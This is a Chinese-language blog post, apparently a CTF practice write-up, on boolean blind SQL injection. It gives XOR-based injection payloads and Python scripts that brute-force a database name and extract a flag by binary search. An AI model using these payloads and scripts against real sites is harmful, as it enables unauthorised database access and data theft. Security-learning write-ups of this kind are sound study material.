 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      对于多种sqli的练习与总结(二)               # 标题 
subtitle:   实操加强对sqli的熟悉度
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00布尔盲注：
首先进入页面，比较特殊，通常来说都是全都点一下吧，然后框框里的数字点的时候返回的url`/?id=1`引起我的注意，但是我们还是先测试一下登录功能：  
![]()  
居然用户名出现单引号都直接被揪出来了，那么在这里猜想一下，是否对用户名和密码都进行了严格的过滤，fuzz一下吧：
![]()
![]()
恩看来这里sql注入的可能性很低了，此时那几个框框的url倒是值得去尝试一下，首先填入id=6：  
![]()
咦显示不存在这个表，有点意思，继续测试填入id=7：
![]()
这个时候回显又不同了，继续测试一下8/9/10，不存在的话会返回error页面，存在的话会返回正常页面：前面提到表，难道是根据id查表，然后回显内容嘛？
鉴于习惯，测试一下id=0：
![]()
收集到的信息为，id=0：error！！！，而其他不存在的为：error！这个时候条件符合我们的布尔盲注了，payload构造返回1，就是正常页面，返回0，就是error！！！页面。那么接下来尝试一下子盲注：
构造payload：`1^1^1`以及`1^0^1`：
![]()![]()
这下子好了，布尔盲注可以进行下一步了：  
手工进行一下`1^(length(select(database())>n)^1`:
![]()
咦怎么不行，那就试试这个语句：`1^(length(database())>1^1`：  
![]()
好成功了，写个小脚本来爆破一下数据库名长度：
```
# for i in range(1,20):
    #     temp["id"] = "1^(length(database())>"+str(i)+")^1"
    #     r=requests.get(url,temp)
    #     if "ERROR!!!" in r.text:
    #         print("length:"+str(i))
    #         break;
```
结果为：length=4  
那么接下来就开始爆破库名，字段名，：
payload构造为：  
`1^(ascii(substr((select(database())),%d,1))>%d)^1`  
下面语句稍微修改一下即可爆字段名了：
`1^(ascii(substr((selcect(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))),i,1))>m)^1`  
下面的为二分法爆表的字段内容,由于用来做过其他题目，可能部分地方需要自己恰当修改一下，可参考思路(get和post差不多），同样上面爆破字段名，表名，数据库名也用二分法快速爆破：
```
url = "http://xxxxxxxxx/xxxxx"
temp = {"id":""}
# for i in range(1,50):
    #     low = 31
    #     high =128
    #     mid = (low+high)//2
    #     while(low<high):
    #         temp['id'] = "1^(ascii(substr((select(flag)from(flag)),%d,1))>%d)^1" %(i,mid)
    #         r = requests.post(url,data=temp)
    #         if "Hello" in r.text:
    #             low=mid+1
    #         else:
    #             high=mid
    #         mid = (low + high) // 2
    #     tablename+=chr(mid)
    #     print(chr(mid))
    # print(tablename)
    ```
**总结一下：**  
 > 本次练习中，用了sql布尔盲注，盲注思维得到了一定的训练，旨在能够准确找到盲注点，通过页面响应判断是否存在以及寻找页面识别点，这样就能进行下去，如果盲注部分使用词汇被过滤，可以查找一下替代的词语，
 许多大表哥也有总结，自己要善于去汲取人家的精华和总结，这样能让自己更快的学习到相关的知识，而不是盲目的去试，到了一定程度相信自己也能很好的掌握技巧。

